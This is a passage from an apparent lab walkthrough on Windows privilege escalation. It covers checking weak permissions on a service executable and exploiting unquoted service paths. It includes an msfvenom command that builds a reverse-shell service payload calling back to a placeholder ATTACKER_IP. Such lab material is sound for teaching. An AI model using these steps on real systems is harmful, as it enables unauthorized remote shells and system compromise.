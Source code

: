 We can see that the service installed by the vulnerable software runs as svcuser1 and the executable associated with the service is in `C:\\Progra~2\\System~1\\WService.exe`. We then proceed to check the permissions on the executable:

```nix
C:\\Users\\thm-unpriv>icacls C:\\PROGRA~2\\SYSTEM~1\\WService.exe
C:\\PROGRA~2\\SYSTEM~1\\WService.exe Everyone:(I)(M)
                                  NT AUTHORITY\\SYSTEM:(I)(F)
                                  BUILTIN\\Administrators:(I)(F)
                                  BUILTIN\\Users:(I)(RX)
                                  APPLICATION PACKAGE AUTHORITY\\ALL APPLICATION PACKAGES:(I)(RX)
                                  APPLICATION PACKAGE AUTHORITY\\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)

Successfully processed 1 files; Failed processing 0 files
```

Let's generate an exe-service payload using msfvenom, serve it through a python webserver, and download it to the target machine.

```nix
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe
```

### Abuse unquoted service paths

When working with Windows services, a very particular behaviour occurs when the service is configured to point to an "unquoted" executable. By unquoted, we mean that the path of the associated executable isn't properly quoted to account for spaces on the command.

```nix
C:\\> sc qc "disk sorter enterprise"
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: disk sorter enterprise
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 0   IGNORE
        BINARY_PATH_NAME   : C:\\MyPrograms\\Disk Sorter Enterprise\\bin\\disksrs.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Disk Sorter Enterprise
        DEPENDENCIES       :
        SERVICE_START_NAME : .\\svcusr2
```

When the SCM tries to execute the associated binary, a problem arises. Since there are spaces on the name of the "Disk Sorter Enterprise" folder, the command becomes ambiguous, and the SCM doesn't know which of the following you are trying to execute:

|Command|Argument 1|Argument 2|
|---|---|---|
|C:\MyPrograms\Disk.exe|Sorter|Enterprise\bin\disksrs.exe|
|C:\MyPrograms\Disk Sorter.exe|Enterprise\bin\disksrs.exe||
|C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe|||

